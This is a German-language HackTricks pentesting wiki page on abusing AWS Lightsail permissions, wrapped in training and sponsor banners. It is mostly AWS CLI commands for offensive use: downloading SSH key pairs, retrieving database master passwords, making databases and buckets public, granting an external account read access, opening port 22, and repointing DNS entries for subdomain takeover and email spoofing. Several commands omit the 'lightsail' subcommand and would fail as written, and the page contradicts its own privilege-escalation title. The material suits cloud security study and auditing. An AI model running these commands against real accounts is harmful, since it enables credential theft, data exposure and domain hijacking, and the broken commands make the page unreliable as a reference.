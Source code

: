 # AWS - Lightsail Privesc

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## Lightsail

Für weitere Informationen über Lightsail siehe:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Es ist wichtig zu beachten, dass Lightsail **keine IAM-Rollen des Benutzers** verwendet, sondern zu einem von AWS verwalteten Konto gehört, sodass du diesen Dienst nicht für Privilegieneskalation missbrauchen kannst. Allerdings könnten **sensible Daten** wie Code, API-Schlüssel und Datenbankinformationen in diesem Dienst gefunden werden.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

Diese Berechtigung ermöglicht es dir, die SSH-Schlüssel zum Zugriff auf die Instanzen zu erhalten:
```
aws lightsail download-default-key-pair
```
**Potenzielle Auswirkungen:** Sensible Informationen innerhalb der Instanzen finden.

### `lightsail:GetInstanceAccessDetails`

Diese Berechtigung ermöglicht es Ihnen, SSH-Schlüssel zu generieren, um auf die Instanzen zuzugreifen:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Potenzielle Auswirkungen:** Sensible Informationen innerhalb der Instanzen finden.

### `lightsail:CreateBucketAccessKey`

Diese Berechtigung ermöglicht es Ihnen, einen Schlüssel zum Zugriff auf den Bucket zu erhalten:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Potenzielle Auswirkungen:** Sensible Informationen im Bucket finden.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Diese Berechtigung ermöglicht es Ihnen, die Anmeldeinformationen zum Zugriff auf die Datenbank zu erhalten:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Potenzielle Auswirkungen:** Sensible Informationen in der Datenbank finden.

### `lightsail:UpdateRelationalDatabase`

Diese Berechtigung ermöglicht es Ihnen, das Passwort zum Zugriff auf die Datenbank zu ändern:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

Wenn die Datenbank nicht öffentlich ist, könnten Sie sie auch mit diesen Berechtigungen öffentlich machen

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Potenzielle Auswirkungen:** Sensible Informationen in der Datenbank finden.

### `lightsail:OpenInstancePublicPorts`

Diese Berechtigung erlaubt das Öffnen von Ports zum Internet.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Potenzielle Auswirkungen:** Zugriff auf sensible Ports.

### `lightsail:PutInstancePublicPorts`

Diese Berechtigung erlaubt das Öffnen von Ports zum Internet. Beachten Sie, dass der Aufruf alle nicht angegebenen geöffneten Ports schließt.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Potenzielle Auswirkungen:** Zugriff auf sensible Ports.

### `lightsail:SetResourceAccessForBucket`

Diese Berechtigung ermöglicht es, einer Instanz den Zugriff auf einen Bucket ohne zusätzliche Anmeldeinformationen zu gewähren.

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Potenzielle Auswirkungen:** Potenzieller neuer Zugriff auf Buckets mit sensiblen Informationen.

### `lightsail:UpdateBucket`

Mit dieser Berechtigung könnte ein Angreifer seinem eigenen AWS-Konto Lesezugriff auf Buckets gewähren oder die Buckets sogar für jeden öffentlich machen:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Potenzielle Auswirkungen:** Potenzieller neuer Zugriff auf Buckets mit sensiblen Informationen.

### `lightsail:UpdateContainerService`

Mit diesen Berechtigungen könnte ein Angreifer Zugriff auf private ECRs vom Containerdienst gewähren.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Potenzielle Auswirkungen:** Sensible Informationen aus privatem ECR abrufen

### `lightsail:CreateDomainEntry`

Ein Angreifer mit dieser Berechtigung könnte einen Subdomain erstellen und ihn auf seine eigene IP-Adresse verweisen (Subdomain-Übernahme) oder einen SPF-Eintrag erstellen, der es ihm ermöglicht, E-Mails von der Domain zu fälschen, oder sogar die Hauptdomain auf seine eigene IP-Adresse setzen.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potenzielle Auswirkungen:** Übernahme einer Domain

### `lightsail:UpdateDomainEntry`

Ein Angreifer mit dieser Berechtigung könnte ein Subdomain erstellen und es auf seine eigene IP-Adresse (Subdomain-Übernahme) verweisen, oder einen SPF-Eintrag erstellen, der es ihm ermöglicht, E-Mails von der Domain zu fälschen, oder sogar die Hauptdomain auf seine eigene IP-Adresse setzen.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potenzielle Auswirkungen:** Übernahme einer Domain

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
